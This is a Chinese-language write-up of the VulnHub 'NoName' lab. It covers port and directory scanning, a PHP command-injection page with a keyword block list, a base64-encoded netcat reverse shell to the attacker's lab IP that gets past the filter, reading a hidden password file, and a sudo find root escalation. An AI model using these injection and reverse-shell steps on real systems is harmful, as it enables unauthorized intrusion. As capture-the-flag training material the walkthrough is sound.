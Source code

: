 # NoName

> https://download.vulnhub.com/haclabs/HL.ova

靶场IP：`192.168.32.22`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.22 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 00:28 EDT
Nmap scan report for 192.168.32.22
Host is up (0.00017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:74:12:22 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds

```

访问80端口，但是无法执行ping命令。

![image-20220914122855710](../../.gitbook/assets/image-20220914122855710.png)

爆破目录，找到：`/superadmin.php `

```
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.32.22 -w /usr/share/wordlists/dirb/big.txt -x .php   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/14 00:31:46 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/admin                (Status: 200) [Size: 417]
/index.php            (Status: 200) [Size: 201]
/server-status        (Status: 403) [Size: 278]
/superadmin.php       (Status: 200) [Size: 152]
                                               
===============================================================
2022/09/14 00:32:12 Finished
===============================================================
                                                                  
```

访问：`/superadmin.php `

![image-20220914123259003](../../.gitbook/assets/image-20220914123259003.png)

执行命令

![image-20220914123334005](../../.gitbook/assets/image-20220914123334005.png)

查看`superadmin.php`源码，开源发现有些命令会被过滤。

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
>
```

使用base64绕过

```
┌──(root㉿kali)-[/tmp]
└─# echo 'nc.traditional  -e /bin/bash 192.168.32.5 12345' | base64
bmMudHJhZGl0aW9uYWwgIC1lIC9iaW4vYmFzaCAxOTIuMTY4LjMyLjUgMTIzNDUK
```

```
ping 127.0.0.1 | `echo "bmMudHJhZGl0aW9uYWwgIC1lIC9iaW4vYmFzaCAxOTIuMTY4LjMyLjUgMTIzNDUK=" | base64 -d`
```

![image-20220914124215641](../../.gitbook/assets/image-20220914124215641.png)

有隐藏文件

![image-20220914133210504](../../.gitbook/assets/image-20220914133210504.png)

找属于yash用户的文件

```
www-data@haclabs:/home/yash$ find / -type f -user yash 2>/dev/null
find / -type f -user yash 2>/dev/null
/home/yash/flag1.txt
/home/yash/.bashrc
/home/yash/.cache/motd.legal-displayed
/home/yash/.profile
/home/yash/.bash_history
/usr/share/hidden/.passwd
```

```
www-data@haclabs:/home/yash$ cat /usr/share/hidden/.passwd
cat /usr/share/hidden/.passwd
haclabs1234
```

切换到`haclabs`用户

```
www-data@haclabs:/home/yash$ su haclabs
su haclabs
Password: haclabs1234

```

查看sudo列表

![image-20220914133509818](../../.gitbook/assets/image-20220914133509818.png)

sudo提权

```
sudo -u root find . -exec /bin/bash \; -quit
```

![image-20230208154353306](../../.gitbook/assets/image-20230208154353306.png)
